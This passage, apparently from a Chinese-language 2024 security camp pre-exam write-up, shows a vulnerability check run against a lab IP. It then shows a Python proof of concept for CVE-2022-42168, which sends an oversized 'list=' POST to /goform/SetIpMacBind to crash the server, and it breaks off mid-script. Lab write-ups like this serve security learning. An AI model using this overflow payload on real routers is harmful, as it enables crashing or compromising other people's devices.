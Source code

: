 執行結果如下：

```shell!
$ python3 -m pip install --upgrade pwntools # if you don't install yet
$ python3 ci.py 192.168.88.130 80
[+] The target seems vulnerable
```

也可以手動執行：

![manually](./2024-t5-security-camp-prexam/manually.png)

並到 server 端查看訊息來驗證：

![pwned](./2024-t5-security-camp-prexam/pwned.png)

### 3.2 Exploit CVE-2022-42168

這邊先使用以下 POC 嘗試讓 server crash：

```python3!
import socket
import os

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

ip = '192.168.88.130'
port = 80

r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

r.connect((ip, port))

rn = b'\r\n'

p1 = b'a' * 0x10000
p2 = b'list=' + p1

p3 = b"POST /goform/SetIpMacBind?a=img/main-logo.png" + b" HTTP/1.1" + rn
p3 += b"Host: 192.168.88.131" + rn
p3 += b"User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:102.0) Gecko/20100101 Firefox/102.0" + rn
p3 += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
p3 += b"Accept-Language: en-US,en;q=0.5" + rn
p3 += b"Accept-Encoding: gzip, deflate" + rn
p3 += b"Connection: close" + rn
p3 += b"Upgrade-Insecure-Requests: 1" + rn
```